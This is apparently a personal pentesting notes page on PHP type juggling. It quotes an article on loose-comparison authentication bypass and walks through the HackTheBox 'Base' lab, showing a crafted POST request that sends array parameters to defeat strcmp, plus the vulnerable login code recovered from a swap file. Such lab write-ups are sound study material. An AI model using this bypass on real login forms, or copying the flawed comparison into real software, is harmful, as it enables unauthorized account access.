

repository: amandaguglieri/hackinglife · page: webexploitation/php-type-juggling-vulnerabilities/index.html · generator: mkdocs

---
title: PHP Type Juggling Vulnerabilities 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
---

# PHP Type Juggling Vulnerabilities

Read [PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09).

Copy-pasted, quoted:

```
How vulnerability arises

The most common way that this particularity in PHP is exploited is by using it to bypass authentication.

Let’s say the PHP code that handles authentication looks like this:

if ($_POST["password"] == "Admin_Password") {login_as_admin();}

Then, simply submitting an integer input of 0 would successfully log you in as admin, since this will evaluate to True:

(0 == “Admin_Password”) -> True
```

In the HackTheBox machine Base, login form was bypasseable by entering an empty array into the username and password parameters:

```
Original request


POST /login/login.php HTTP/1.1
Host: base.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://base.htb
Connection: close
Referer: http://base.htb/login/login.php
Cookie: PHPSESSID=sh4obp53otv54vtsj0g6tev1tt
Upgrade-Insecure-Requests: 1

username=admin&password=admin

```


```
Crafted request:

POST /login/login.php HTTP/1.1
Host: base.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://base.htb
Connection: close
Referer: http://base.htb/login/login.php
Cookie: PHPSESSID=sh4obp53otv54vtsj0g6tev1tt
Upgrade-Insecure-Requests: 1

username[]=admin&password[]=admin
```

How to know? By spotting the file login.php.swp in the /login exposed directory and reading its contents with:

```bash
vim -r login.php.swp
# -r  -- list swap files and exit or recover from a swap file

```

Content:

```
<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
```
